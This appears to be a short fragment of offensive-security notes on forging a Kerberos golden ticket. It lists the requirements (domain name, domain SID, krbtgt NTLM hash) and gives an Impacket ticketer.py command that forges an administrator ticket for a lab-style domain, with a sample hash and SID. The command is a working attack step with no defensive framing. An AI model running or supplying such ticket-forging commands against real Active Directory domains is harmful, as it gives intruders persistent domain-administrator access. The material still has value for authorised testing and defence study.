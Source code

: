 ### Requirements
- Knowledge of the domain name
- Knowledge of the domain SID
- The NTLM hash of the krbtgt account

```shell
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park administrator
```


